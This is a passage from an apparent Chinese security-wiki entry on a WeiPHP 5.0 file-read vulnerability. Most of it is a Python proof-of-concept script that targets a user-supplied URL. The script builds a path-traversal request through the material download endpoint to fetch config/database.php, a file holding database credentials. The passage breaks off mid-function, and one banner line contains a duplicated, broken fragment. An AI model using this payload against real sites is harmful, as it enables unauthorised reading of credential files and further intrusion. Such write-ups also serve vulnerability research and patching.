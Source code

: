![](image/weiphp-13.png)

可以看到文件名，根据url地址访问选择下载即可

## 漏洞利用POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech


import requests
import random
import re


def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                \033[0m')                            \033[0m')
    print('+  \033[34mVersion: Weiphp5.0                                                \033[0m')
    print('+  \033[36m使用格式: python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx                                 \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    upload_url = target_url + "/public/index.php/material/Material/_download_imgage?media_id=1&picUrl=./../config/database.php"
    headers = {
```